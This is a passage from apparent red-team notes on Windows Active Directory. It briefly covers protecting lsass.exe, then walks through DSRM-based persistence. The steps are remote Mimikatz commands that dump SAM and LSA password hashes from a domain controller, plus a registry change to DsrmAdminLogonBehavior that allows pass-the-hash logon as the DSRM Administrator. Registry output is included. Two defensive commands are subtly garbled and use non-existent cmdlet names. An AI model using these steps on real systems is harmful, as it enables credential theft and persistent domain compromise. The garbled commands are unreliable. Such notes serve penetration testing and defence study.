 > **RedTeam Note**: This attack is very noisy.

We can also mitigate that running `lsass.exe` as a protected process that forces the attacker to load a kernel mode driver.

```powershell
Net-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name RunAsPPL -Value 1 -Verbose
```

Verify after a reboot:

```powershell
Get-WmiEvent -FilterHashtable @{Logname='System';ID=12} | ?{$_.message -like "*protected process*"}
```

# Directory Services Restore Mode (DSRM)

There is a local administrator on every domain controlled called "Administrator" whose password is the DSRM password. DSRM password (SafeModePassword) is required when a server is promoted to Domain Controller and it is rarely changed.


We only need to dump the DSRM password:

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName dc01
```

We can compare the Administrator hash with the Administrator hash with the following command:

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dc01
```
Since we have the NTLM hash, we can pass the hash to authenticate. But, the Logon Behaviour for the DSRM account needs to be changed before we can use its hash.

```powershell
Enter-PSSession -ComputerName dc01
[corp-dc]: PS C:\Users\Administrator\Documents> New-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

DsrmAdminLogonBehavior : 2
PSPath                 : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\
PSParentPath           : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control
PSChildName            : Lsa
PSDrive                : HKLM
PSProvider             : Microsoft.PowerShell.Core\Registry
```

> **Note**: If we get an error such as _"New-ItemProperty: The property already exists"_ you need to modify it.
>
> `Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"`
> `Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2`
